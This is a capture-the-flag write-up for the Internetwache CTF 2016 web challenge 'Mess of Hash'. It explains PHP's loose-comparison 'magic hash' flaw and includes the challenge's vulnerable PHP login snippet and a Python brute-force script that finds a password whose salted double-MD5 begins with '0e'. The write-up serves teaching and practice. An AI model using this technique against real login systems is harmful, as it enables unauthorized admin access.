# Internetwache CTF 2016 : Mess of Hash

**Category:** Web
**Points:** 50
**Solves:** 143
**Description:**

> Description: Students have developed a new admin login technique. I doubt that it's secure, but the hash isn't crackable. I don't know where the problem is...
> 
> 
> Attachment: [web50.zip](./web50.zip)
> 
> 
> Service: <https://mess-of-hash.ctf.internetwache.org/>


## Write-up

Writeup by [unicornsasfuel](https://github.com/unicornsasfuel)

PHP is weird. No doubt about it. There are a lot of quirks.

One of PHP's quirks is that strings will be interpreted as numbers in scientific notation if they are in the right format, specifically <number>e<number>. If such a number starts with `0e`, it is effectively `0`. If two strings match these parameters and are compared through the double-equals operator (which, importantly, allows for type conversion from string to number), they will always match as they are both effectively `0`.

It is possible for a hashing algorithm to produce such a hash, though the chances are roughly one in 200 million. Through CTF challenge magic, the admin hash `0e408306536730731920197920342119` matches these conditions.

~~~PHP
<?php

$admin_user = "pr0_adm1n";
$admin_pw = clean_hash("0e408306536730731920197920342119");

function clean_hash($hash) {
    return preg_replace("/[^0-9a-f]/","",$hash);
}

function myhash($str) {
    return clean_hash(md5(md5($str) . "SALT"));
}
~~~

There are published values whose md5 sums match these conditions, but as we can see above, the hashing algorithm is custom, so we must perform our own search. Below is a Python solver script which provides us the password we need:

~~~Python
import md5
import string
import sys

def do_0e_check(inhash):
   if inhash[:2] == '0e':
      print 'hash %s begins with 0e' % inhash
      if all([char in string.digits for char in inhash[2:]]):
         return True
   return False

i = int(sys.argv[1])
answer = 0

print "Starting cracking process..."

while True:
   hashcandidate = md5.new(md5.new(str(i)).hexdigest()+'SALT').hexdigest()
   if do_0e_check(hashcandidate):
      break
   else:
      i += 1
      if i % 100000 == 0:
         sys.stdout.write("\rCurrent i value: %s" % i)
         sys.stdout.flush()

print "Answer found: md5(md5(%s)+'SALT') matches" % (i)
~~~

Logging in with username `pr0_adm1n` and the found password results in a successful login and the disclosure of the flag.

## Other write-ups and resources

* <https://forum.xeksec.com/f138/t88657/>
* <https://www.xil.se/post/internetwache-2016-web-50-simonvik/>
* <http://pastebin.com/K4xGYGMK>

